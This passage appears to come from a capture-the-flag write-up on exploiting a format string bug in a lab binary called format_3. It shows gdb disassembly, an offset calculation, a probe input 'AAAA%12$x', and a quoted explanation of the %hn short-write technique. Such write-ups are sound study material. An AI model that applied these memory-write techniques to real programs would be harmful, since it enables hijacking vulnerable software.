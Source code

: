 #### 2.2 Quick Solution

Let's by calculating the offset between the parameters of printf and the string when it's called.

```nasm
gdb-peda$ disas printbuffer
Dump of assembler code for function printbuffer:
   0x0804849d <+0>:	push   ebp
   0x0804849e <+1>:	mov    ebp,esp
   0x080484a0 <+3>:	sub    esp,0x18
   0x080484a3 <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080484a6 <+9>:	mov    DWORD PTR [esp],eax
   0x080484a9 <+12>:	call   0x8048350 <printf@plt>
   0x080484ae <+17>:	leave  
   0x080484af <+18>:	ret

gdb-peda$ b*0x080484a9
Breakpoint 4 at 0x80484a9: file format_3.c, line 10.

gdb-peda$ r
Starting program: format_3 
AAAA

gdb-peda$ x/wx $esp
0xffffced0:	0xffffcf00

gdb-peda$ p/d (0xffffcf00 - 0xffffced0) / 4
$15 = 12
```

Okay it's 12, it's possible to validate by select 12th argument via **$** as well.

```
$ ./format_3
AAAA%12$x                     
AAAA41414141
target is 00000000 :(
```

There are several methods such as writing one byte each time but I'd like to use short writes method.
This method (short int types: the '%hn') helps to write an address in just two writes.

The following quote is from a pdf which was published after a CCC talk.
[https://koeln.ccc.de/archiv/congress/17c3-2000/formatstring/shortwrite.html](https://koeln.ccc.de/archiv/congress/17c3-2000/formatstring/shortwrite.html)
[https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf](https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf)

> The ‘h’ can be used in other format parameters too, to cast the value supplied on the stack to a short type. The short write technique has
one advantage over the first technique: It does not destroy data beside the address, so if there is valueable data behind the address you are overwriting, such as a function parameter, it is preserved.  This does not work on old GNU C libraries (libc5). Also it consumes more memory in the target process.
